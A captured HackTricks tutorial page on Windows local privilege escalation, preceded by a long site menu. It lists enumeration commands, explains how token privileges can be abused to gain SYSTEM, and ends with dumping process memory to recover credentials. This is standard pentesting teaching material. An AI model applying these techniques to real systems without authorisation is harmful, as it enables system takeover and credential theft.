

Windows Local Privilege Escalation - HackTricks

[    HackTricks](https://book.hacktricks.xyz/)

[HackTricks](https://book.hacktricks.xyz/)
[Pentesting Methodology](https://book.hacktricks.xyz/pentesting-methodology)
[About the author](https://book.hacktricks.xyz/about-the-author)
[Exfiltration](https://book.hacktricks.xyz/exfiltration)

[Tunneling and Port Forwarding](https://book.hacktricks.xyz/tunneling-and-port-forwarding)

[Brute Force - CheatSheet](https://book.hacktricks.xyz/brute-force)
[Search Exploits](https://book.hacktricks.xyz/search-exploits)
Shells

[Shells (Linux, Windows, MSFVenom)](https://book.hacktricks.xyz/shells/shells)

Linux/Unix

[Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)

[Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[Useful Linux Commands](https://book.hacktricks.xyz/linux-unix/useful-linux-commands)

[Linux Environment Variables](https://book.hacktricks.xyz/linux-unix/linux-environment-variables)

Windows

[Checklist - Local Windows Privilege Escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Dll Hijacking](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)

[From High Integrity to SYSTEM with Name Pipes](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/from-high-integrity-to-system-with-name-pipes)

[Named Pipe Client Impersonation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/named-pipe-client-impersonation)

[Leaked Handle Exploitation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/leaked-handle-exploitation)

[SeDebug + SeImpersonate copy token](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/sedebug-+-seimpersonate-copy-token)

[MSI Wrapper](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/msi-wrapper)

[JuicyPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)

[Windows C Payloads](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/windows-c-payloads)

[PowerUp](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/powerup)

[JAWS](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/jaws)

[Seatbelt](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/seatbelt)

[RottenPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato)

[Active Directory Methodology](https://book.hacktricks.xyz/windows/active-directory-methodology)

[NTLM](https://book.hacktricks.xyz/windows/ntlm)

[Stealing Credentials](https://book.hacktricks.xyz/windows/stealing-credentials)

[Authentication, Credentials, Token privileges, UAC and EFS](https://book.hacktricks.xyz/windows/credentials)

[Basic CMD for Pentesters](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters)

[Basic PowerShell for Pentesters](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)

[AV Bypass](https://book.hacktricks.xyz/windows/av-bypass)
Mobile Apps Pentesting

[Android APK Checklist](https://book.hacktricks.xyz/mobile-apps-pentesting/android-checklist)

[Android Applications Pentesting](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting)

Pentesting

[Pentesting Network](https://book.hacktricks.xyz/pentesting/pentesting-network)

[Pentesting JDWP - Java Debug Wire Protocol](https://book.hacktricks.xyz/pentesting/pentesting-jdwp-java-debug-wire-protocol)

[Pentesting Printers](https://book.hacktricks.xyz/pentesting/pentesting-printers)

[7/tcp/udp - Pentesting Echo](https://book.hacktricks.xyz/pentesting/7-tcp-udp-pentesting-echo)

[21 - Pentesting FTP](https://book.hacktricks.xyz/pentesting/pentesting-ftp)

[22 - Pentesting SSH/SFTP](https://book.hacktricks.xyz/pentesting/pentesting-ssh)

[23 - Pentesting Telnet](https://book.hacktricks.xyz/pentesting/pentesting-telnet)

[25,465,587 - Pentesting SMTP/s](https://book.hacktricks.xyz/pentesting/pentesting-smtp)

[43 - Pentesting WHOIS](https://book.hacktricks.xyz/pentesting/43-pentesting-whois)

[53 - Pentesting DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns)

[69/UDP TFTP/Bittorrent-tracker](https://book.hacktricks.xyz/pentesting/69-udp-tftp)

[79 - Pentesting Finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)

[80,443 - Pentesting Web Methodology](https://book.hacktricks.xyz/pentesting/pentesting-web)

[88tcp/udp - Pentesting Kerberos](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)

[110,995 - Pentesting POP](https://book.hacktricks.xyz/pentesting/pentesting-pop)

[111/TCP/UDP - Pentesting Portmapper](https://book.hacktricks.xyz/pentesting/pentesting-rpcbind)

[113 - Pentesting Ident](https://book.hacktricks.xyz/pentesting/113-pentesting-ident)

[123/udp - Pentesting NTP](https://book.hacktricks.xyz/pentesting/pentesting-ntp)

[135, 593 - Penstesting MSRPC](https://book.hacktricks.xyz/pentesting/135-penstesting-msrpc)

[137,138,139 - Pentesting NetBios](https://book.hacktricks.xyz/pentesting/137-138-139-pentesting-netbios)

[139,445 - Pentesting SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)

[143,993 - Pentesting IMAP](https://book.hacktricks.xyz/pentesting/pentesting-imap)

[161,162,10161,10162/udp - Pentesting SNMP](https://book.hacktricks.xyz/pentesting/pentesting-snmp)

[194,6667,6660-7000 - Pentesting IRC](https://book.hacktricks.xyz/pentesting/pentesting-irc)

[264 - Pentesting Check Point FireWall-1](https://book.hacktricks.xyz/pentesting/pentesting-264-check-point-firewall-1)

[389, 636, 3268, 3269 - Pentesting LDAP](https://book.hacktricks.xyz/pentesting/pentesting-ldap)

[500/udp - Pentesting IPsec/IKE VPN](https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting)

[502 - Pentesting Modbus](https://book.hacktricks.xyz/pentesting/pentesting-modbus)

[512 - Pentesting Rexec](https://book.hacktricks.xyz/pentesting/512-pentesting-rexec)

[513 - Pentesting Rlogin](https://book.hacktricks.xyz/pentesting/pentesting-rlogin)

[514 - Pentesting Rsh](https://book.hacktricks.xyz/pentesting/pentesting-rsh)

[515 - Pentesting Line Printer Daemon (LPD)](https://book.hacktricks.xyz/pentesting/515-pentesting-line-printer-daemon-lpd)

[548 - Pentesting Apple Filing Protocol (AFP)](https://book.hacktricks.xyz/pentesting/584-pentesting-afp)

[554,8554 - Pentesting RTSP](https://book.hacktricks.xyz/pentesting/554-8554-pentesting-rtsp)

[623/UDP/TCP - IPMI](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

[631 - Internet Printing Protocol(IPP)](https://book.hacktricks.xyz/pentesting/pentesting-631-internet-printing-protocol-ipp)

[873 - Pentesting Rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

[1026 - Pentesting Rusersd](https://book.hacktricks.xyz/pentesting/1026-pentesting-rusersd)

[1098/1099 - Pentesting Java RMI](https://book.hacktricks.xyz/pentesting/1099-pentesting-java-rmi)

[1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

[1521,1522-1529 - Pentesting Oracle TNS Listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)

[1723 - Pentesting PPTP](https://book.hacktricks.xyz/pentesting/1723-pentesting-pptp)

[1883 - Pentesting MQTT (Mosquitto)](https://book.hacktricks.xyz/pentesting/1883-pentesting-mqtt-mosquitto)

[2049 - Pentesting NFS Service](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)

[2301,2381 - Pentesting Compaq/HP Insight Manager](https://book.hacktricks.xyz/pentesting/pentesting-compaq-hp-insight-manager)

[3260 - Pentesting ISCSI](https://book.hacktricks.xyz/pentesting/3260-pentesting-iscsi)

[3299 - Pentesting SAPRouter](https://book.hacktricks.xyz/pentesting/3299-pentesting-saprouter)

[3306 - Pentesting Mysql](https://book.hacktricks.xyz/pentesting/pentesting-mysql)

[3389 - Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

[3632 - Pentesting distcc](https://book.hacktricks.xyz/pentesting/3632-pentesting-distcc)

[4369 - Pentesting Erlang Port Mapper Daemon (epmd)](https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd)

[5353/UDP Multicast DNS (mDNS)](https://book.hacktricks.xyz/pentesting/5353-udp-multicast-dns-mdns)

[5432,5433 - Pentesting Postgresql](https://book.hacktricks.xyz/pentesting/pentesting-postgresql)

[5671,5672 - Pentesting AMQP](https://book.hacktricks.xyz/pentesting/5671-5672-pentesting-amqp)

[5800,5801,5900,5901 - Pentesting VNC](https://book.hacktricks.xyz/pentesting/pentesting-vnc)

[5984,6984 - Pentesting CouchDB](https://book.hacktricks.xyz/pentesting/5984-pentesting-couchdb)

[5985,5986 - Pentesting WinRM](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm)

[6000 - Pentesting X11](https://book.hacktricks.xyz/pentesting/6000-pentesting-x11)

[6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

[8009 - Pentesting Apache JServ Protocol (AJP)](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp)

[9042/9160 - Pentesting Cassandra](https://book.hacktricks.xyz/pentesting/cassandra)

[9100 - Pentesting Raw Printing (JetDirect, AppSocket, PDL-datastream)](https://book.hacktricks.xyz/pentesting/9100-pjl)

[9200 - Pentesting Elasticsearch](https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch)

[10000 - Pentesting Network Data Management Protocol (ndmp)](https://book.hacktricks.xyz/pentesting/10000-network-data-management-protocol-ndmp)

[11211 - Pentesting Memcache](https://book.hacktricks.xyz/pentesting/11211-memcache)

[15672 - Pentesting RabbitMQ Management](https://book.hacktricks.xyz/pentesting/15672-pentesting-rabbitmq-management)

[27017,27018 - Pentesting MongoDB](https://book.hacktricks.xyz/pentesting/27017-27018-mongodb)

[44818/UDP/TCP - Pentesting EthernetIP](https://book.hacktricks.xyz/pentesting/44818-ethernetip)

[47808/udp - Pentesting BACNet](https://book.hacktricks.xyz/pentesting/47808-udp-bacnet)

[50030,50060,50070,50075,50090 - Pentesting Hadoop](https://book.hacktricks.xyz/pentesting/50030-50060-50070-50075-50090-pentesting-hadoop)

Pentesting Web
[2FA Bypass](https://book.hacktricks.xyz/pentesting-web/2fa-bypass)

[Abusing hop-by-hop headers](https://book.hacktricks.xyz/pentesting-web/abusing-hop-by-hop-headers)

[Captcha Bypass](https://book.hacktricks.xyz/pentesting-web/captcha-bypass)

[Cache Poisoning and Cache Deception](https://book.hacktricks.xyz/pentesting-web/cache-deception)

[Clickjacking](https://book.hacktricks.xyz/pentesting-web/clickjacking)

[Client Side Template Injection (CSTI)](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti)

[Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

[Content Security Policy (CSP) Bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

[Cookies Hacking](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies)

[CORS - Misconfigurations & Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass)

[CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

[Cross-site WebSocket hijacking (CSWSH)](https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh)

[CSRF (Cross Site Request Forgery)](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)

[Dangling Markup - HTML scriptless injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)

[Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization)

[Email Header Injection](https://book.hacktricks.xyz/pentesting-web/email-header-injection)

[File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

[HTTP Request Smuggling / HTTP Desync Attack](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling)

[IDOR](https://book.hacktricks.xyz/pentesting-web/idor)

[JWT Vulnerabilities (Json Web Tokens)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

[NoSQL injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
[LDAP Injection](https://book.hacktricks.xyz/pentesting-web/ldap-injection)

[OAuth to Account takeover](https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover)

[Open Redirect](https://book.hacktricks.xyz/pentesting-web/open-redirect)
[Race Condition](https://book.hacktricks.xyz/pentesting-web/race-condition)

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

[SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)

[SSRF (Server Side Request Forgery)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[Domain/Subdomain takeover](https://book.hacktricks.xyz/pentesting-web/domain-subdomain-takeover)

[Unicode Normalization vulnerability](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability)

[Web Tool - WFuzz](https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz)
[XPATH injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)

[XSLT Server Side Injection (Extensible Stylesheet Languaje Transformations)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations)

[XXE - XEE - XML External Entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

[XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

[XSSI (Cross-Site Script Inclusion)](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion)

[XS-Search](https://book.hacktricks.xyz/pentesting-web/xs-search)
Physical attacks

[Physical Attacks](https://book.hacktricks.xyz/physical-attacks/physical-attacks)

[Escaping from KIOSKs](https://book.hacktricks.xyz/physical-attacks/escaping-from-gui-applications)

Exploiting

[Linux Exploiting (Basic) (SPA)](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp)

[Exploiting Tools](https://book.hacktricks.xyz/exploiting/tools)

[Windows Exploiting (Basic Guide - OSCP lvl)](https://book.hacktricks.xyz/exploiting/windows-exploiting-basic-guide-oscp-lvl)

[Reversing](https://book.hacktricks.xyz/exploiting/reversing)
Forensics
[Malware Analysis](https://book.hacktricks.xyz/forensics/malware-analysis)

[Memory dump analysis](https://book.hacktricks.xyz/forensics/memory-dump-analysis)

[Pcaps analysis](https://book.hacktricks.xyz/forensics/pcaps-analysis)

[Volatility - Examples](https://book.hacktricks.xyz/forensics/volatility-examples)

[Basic Forensics (ESP)](https://book.hacktricks.xyz/forensics/basic-forensics-esp)

Crypto

[Electronic Code Book (ECB)](https://book.hacktricks.xyz/crypto/electronic-code-book-ecb)

[Cipher Block Chaining CBC-MAC](https://book.hacktricks.xyz/crypto/cipher-block-chaining-cbc-mac-priv)

[Padding Oracle](https://book.hacktricks.xyz/crypto/padding-oracle-priv)

[RC4 - Encrypt&Decrypt](https://book.hacktricks.xyz/crypto/rc4-encrypt-and-decrypt)

[Crypto CTFs Tricks](https://book.hacktricks.xyz/crypto/crypto-ctfs-tricks)
BACKDOORS
[Merlin](https://book.hacktricks.xyz/backdoors/merlin)
[Empire](https://book.hacktricks.xyz/backdoors/empire)
[Salseo](https://book.hacktricks.xyz/backdoors/salseo)
[ICMPsh](https://book.hacktricks.xyz/backdoors/icmpsh)
Stego
[Stego Tricks](https://book.hacktricks.xyz/stego/stego-tricks)
[Esoteric languages](https://book.hacktricks.xyz/stego/esoteric-languages)
MISC

[Basic Python](https://book.hacktricks.xyz/misc/basic-python)

[Other Big References](https://book.hacktricks.xyz/misc/references)
TODO
[More Tools](https://book.hacktricks.xyz/todo/more-tools)
[MISC](https://book.hacktricks.xyz/todo/misc)
[Pentesting DNS](https://book.hacktricks.xyz/todo/pentesting-dns)
[Burp Suite](https://book.hacktricks.xyz/burp-suite)
[Other Web Tricks](https://book.hacktricks.xyz/other-web-tricks)
[Interesting HTTP](https://book.hacktricks.xyz/interesting-http)
[Emails Vulnerabilities](https://book.hacktricks.xyz/emails-vulns)

[Bug Bounties Methodology](https://book.hacktricks.xyz/bug-bounties-methodology)

[Cloud security review](https://book.hacktricks.xyz/cloud-security-review)
[Android Forensics](https://book.hacktricks.xyz/android-forensics)
[TR-069](https://book.hacktricks.xyz/tr-069)

[6881/udp - Pentesting BitTorrent](https://book.hacktricks.xyz/6881-udp-pentesting-bittorrent)

[CTF Write-ups](https://book.hacktricks.xyz/ctf-write-ups)

[1911 - Pentesting fox](https://book.hacktricks.xyz/1911-pentesting-fox)

[Online Platforms with API](https://book.hacktricks.xyz/online-platforms-with-api)

[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 1067 769' xmlns='http://www.w3.org/2000/svg' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2092'%3e%3cg data-evernote-id='2093' class='js-evernote-checked'%3e%3cpath d='M480.026 640.677c17.205 0 31.2 13.997 31.2 31.194s-13.995 31.193-31.2 31.193c-17.197 0-31.193-13.996-31.193-31.193 0-17.197 13.996-31.194 31.193-31.194m489.93-193.226c-17.203 0-31.2-13.998-31.2-31.195 0-17.204 13.997-31.2 31.2-31.2 17.198 0 31.194 13.996 31.194 31.2 0 17.197-13.996 31.195-31.193 31.195m0-127.804c-53.269 0-96.609 43.34-96.609 96.609 0 10.373 1.723 20.702 5.123 30.741L559.328 616.879c-18.132-26.128-47.521-41.617-79.302-41.617-36.821 0-70.391 21.065-86.63 54.003L106.68 478.109c-30.288-15.927-52.965-65.817-50.56-111.223 1.248-23.687 9.438-42.071 21.897-49.17 7.916-4.493 17.436-4.099 27.526 1.188l1.916 1.01c75.96 40.022 324.6 170.981 335.063 175.844 16.157 7.47 25.14 10.5 52.659-2.547l513.958-267.3c7.53-2.844 16.315-10.062 16.315-21.023 0-15.205-15.72-21.199-15.765-21.199-29.218-14.018-74.163-35.054-117.987-55.57C798.033 84.26 691.861 34.547 645.23 10.132c-40.253-21.072-72.655-3.311-78.432.282l-11.227 5.555C345.727 119.743 64.898 258.826 48.911 268.553 20.278 285.973 2.547 320.679.252 363.768c-3.586 68.304 31.261 139.506 81.069 165.634l303.172 156.354c6.83 47.306 47.55 82.725 95.532 82.725 52.78 0 95.808-42.546 96.603-95.14L910.541 492.38c16.93 13.233 37.92 20.486 59.416 20.486 53.268 0 96.61-43.341 96.61-96.61s-43.342-96.61-96.61-96.61' fill-rule='evenodd' data-evernote-id='2094' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e) Powered by**GitBook**](https://www.gitbook.com/?utm_source=content&utm_medium=trademark&utm_campaign=hacktricks)

# Windows Local Privilege Escalation

##

**Best tool to look for Windows local privilege escalation vectors: **[**WinPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)**​**

If you want to **know **about my **latest modifications**/**additions**,** join the **[**PEASS & HackTricks telegram group here**](https://t.me/peass)**.**

#

Windows version exploits

Check if the Windows version has any known vulnerability (check also the patches applied).

Copy

1systeminfo

2systeminfo | findstr /B /C:"OS Name" /C:"OS Version"  #Get only that information

3wmic qfe get Caption,Description,HotFixID,InstalledOn #Patches

Copy

4[System.Environment]::OSVersion.Version #Current OS version

5Get-WmiObject -query 'select * from win32_quickfixengineering'  | foreach {$_.hotfixid}  #List all patches

6Get-Hotfix -description "Security update"  #List only "Security Update" patches

*post/windows/gather/enum_patches post/multi/recon/local_exploit_suggester*[*watson*](https://github.com/rasta-mouse/Watson)**[*winpeas*](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)* (Winpeas has watson embedded)*

​[Windows known vulnerabilities PoCs.](https://github.com/nomi-sec/PoC-in-GitHub)​

##

Vulnerable Drivers

Look for possible third party weird/vulnerable drivers

Copy

driverquery

#

Enumeration

##

Environment

Any credential/Juicy info saved in the env variables?

Copy

8set
9dir env:

##

LAPS

**LAPS **allows you to** manage the local Administrator password** (which is **randomised**, unique, and **changed regularly**) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES.

Copy

reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

When using LAPS, 2 new attributes appear in the computer objects of the domain: *ms-msc-AdmPwd* and *ms-mcs-AdmPwdExpirationTime. *These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes...

##

Audit Settings

These settings decide what is being **logged**, so you should pay attention

Copy

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit

##

WEF

Windows Event Forwarding, is interesting to know where are the logs sent

Copy

reg query HKLM\Software\Policies\Microsoft\Windows\EventLog\EventForwarding\SubscriptionManager

##

AV

Check is there is any anti virus running:

Copy

WMIC /Node:localhost /Namespace:\oot\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List |  more

#

Users & Groups

You should check if any of the groups where you belong have interesting permissions

Copy

14# CMD
15net users %username% #Me
16net users  #All local users
17net localgroup #Groups
18net localgroup Administrators #Who is inside Administrators group
19whoami /all #Check the privileges
20​
21# PS
22Get-WmiObject -Class Win32_UserAccount

##

Get the content of the clipboard

Copy

powershell -command "Get-Clipboard"

#

Token manipulation

**Learn more **about what is a **token **in this page: [Windows Tokens](https://book.hacktricks.xyz/windows/credentials#access-tokens). Take a look to **available privileges**, some of them can give you SYSTEM privileges. Take a look to [this amazing paper](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt).

##

SeImpersonatePrivilege (3.1.1)

Any process holding this privilege can **impersonate** (but not create) any **token** for which it is able to gethandle. You can get a **privileged token** from a **Windows service** (DCOM) making it perform an **NTLM authentication** against the exploit, then execute a process as **SYSTEM**. Exploit it with [juicy-potato](https://github.com/ohpe/juicy-potato), [RogueWinRM](https://github.com/antonioCoco/RogueWinRM)(needs winrm enabled), [SweetPotato](https://github.com/CCob/SweetPotato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).

##

SeAssignPrimaryPrivilege (3.1.2)

It is very similar to **SeImpersonatePrivilege**, it will use the **same method** to get a privileged token. Then, this privilege allows **to assign a primary token** to a new/suspended process. With the privileged impersonation token you can derivate a primary token (DuplicateTokenEx). With the token, you can create a **new process **with 'CreateProcessAsUser' or create a process suspended and **set the token** (in general, you cannot modify the primary token of a running process).

##

SeTcbPrivilege (3.1.3)

If you have enabled this token you can use **KERB_S4U_LOGON** to get an **impersonation token** for any other user without knowing the credentials, **add an arbitrary group** (admins) to the token, set the **integrity level** of the token to "**medium**", and assign this token to the **current thread** (SetThreadToken).

##

SeBackupPrivilege (3.1.4)

This privilege causes the system to **grant all read access** control to any file (only read). Use it to **read the password hashes of local Administrator** accounts from the registry and then use "**psexec**" or "**wmicexec**" with the hash (PTH). This attack won't work if the Local Administrator is disabled, or if it is configured that a Local Admin isn't admin if he is connected remotely. You can **abuse this privilege** with: https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1 or with https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug​

##

SeRestorePrivilege (3.1.5)

**Write access** control to any file on the system, regardless of the files ACL. You can **modify services**, DLL Hijacking, set **debugger** (Image File Execution Options)… A lot of options to escalate.

##

SeCreateTokenPrivilege (3.1.6)

This token **can be used** as EoP method **only** if the user **can impersonate** tokens (even without SeImpersonatePrivilege). In a possible scenario, a user can impersonate the token if it is for the same user and the integrity level is less or equal to the current process integrity level. In this case, the user could **create an impersonation token** and add to it a privileged group SID.

##

SeLoadDriverPrivilege (3.1.7)

**Load and unload device drivers.**You need to create an entry in the registry with values for ImagePath and Type. As you don't have access to write to HKLM, you have to **use HKCU**. But HKCU doesn't mean anything for the kernel, the way to guide the kernel here and use the expected path for a driver config is to use the path: "\Registry\User\S-1-5-21-582075628-3447520101-2530640108-1003\System\CurrentControlSet\Services\DriverName" (the ID is the **RID** of the current user). So, you have to **create all that path inside HKCU and set the ImagePath** (path to the binary that is going to be executed) **and Type** (SERVICE_KERNEL_DRIVER 0x00000001).[**Learn how to exploit it here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#seloaddriverprivilege)**​**

##

SeTakeOwnershipPrivilege (3.1.8)

This privilege is very similar to **SeRestorePrivilege**. It allows a process to “**take ownership of an object** without being granted discretionary access” by granting the WRITE_OWNER access right. First, you have to **take ownership of the registry key** that you are going to write on and **modify the DACL** so you can write on it.

##

SeDebugPrivilege (3.1.9)

It allows the holder to **debug another process**, this includes reading and **writing** to that **process' memory.**There are a lot of various **memory injection** strategies that can be used with this privilege that evade a majority of AV/HIPS solutions.

##

Check privileges

Copy

whoami /priv

#

Network

Check for **restricted services** from the outside

Copy

netstat -ano #Opened ports?

More[commands for network enumeration here](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#network)​

#

Software

Check all the installed software, maybe you can overwrite some binary or perform some DLL Hijacking by creating a DLL in the same folder.

Copy

26dir /a "C:\Program Files"
27dir /a "C:\Program Files (x86)"
28reg query HKEY_LOCAL_MACHINE\SOFTWARE
29​

30Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)'  | ft Parent,Name,LastWriteTime

31Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

##

Run at startup

Check if you can overwrite some binary that is going to be executed by other user.

Copy

32wmic startup get caption,command 2>nul & ^
33reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run 2>nul & ^
34reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce 2>nul & ^
35reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run 2>nul & ^
36reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce 2>nul & ^

37dir /b "C:\Documents and Settings\All Users\Start Menu\Programs\Startup" 2>nul & ^

38dir /b "C:\Documents and Settings\%username%\Start Menu\Programs\Startup" 2>nul & ^

39dir /b "%programdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul & ^

40dir /b "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
41schtasks /query /fo TABLE /nh | findstr /v /i "disable deshab"

Copy

42Get-CimInstance Win32_StartupCommand |  select Name, command, Location, User | fl

43Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run'

44Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce'

45Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run'

46Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce'

47Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
48Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"

Check which files are executed when the computer is started. Components that are executed when a user logins can be exploited to execute malicious code when the administrator logins. For a **more comprehensive list of auto-executed** file you could use [autoruns](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns)from systinternals:

Copy

autorunsc.exe -m -nobanner -a * -ct /accepteula

#

Running processes

Check if you can overwrite some binary running or if you can dump the memory of any process containing passwords.

Copy

50Tasklist /SVC #List processes running and services
51​
52#With allowed Usernames

53Get-WmiObject -Query "Select * from Win32_Process"  | where {$_.Name -notlike "svchost*"}  | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}}  | ft -AutoSize

54​
55#Without usernames

56Get-Process | where {$_.ProcessName -notlike "svchost*"}  | ft ProcessName, Id

###

Checking permissions of the processes binaries

Copy

57for /f "tokens=2 delims='='" %%x in  ('wmic process list full^|find /i "executablepath"^|find /i /v "system32"^|find ":"')  do  (

58for /f eol^=^"^ delims^=^" %%z in  ('echo %%x')  do  (

59icacls "%%z" 2>nul | findstr /i "(F) (M) (W) :\\"  | findstr /i ":\\ everyone authenticated users todos %username%"  && echo.

60)
61)

###

Checking permissions of the folders of the processes binaries (dll injection)

Copy

62for /f "tokens=2 delims='='" %%x in  ('wmic process list full^|find /i "executablepath"^|find /i /v "system32"^|find ":"')  do  for /f eol^=^"^ delims^=^" %%y in  ('echo %%x')  do  (

63icacls "%%~dpy\" 2>nul | findstr /i "(F)  (M)  (W) :\\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo.

64)

##

Memory Password mining

You can create a memory dump of a running process using **procdump** from sysinternals. Services like FTP have the credentials in clear text in memory, try to dump the memory and read the credentials.

Copy

procdump.exe -accepteula -ma <proc_name_tasklist>

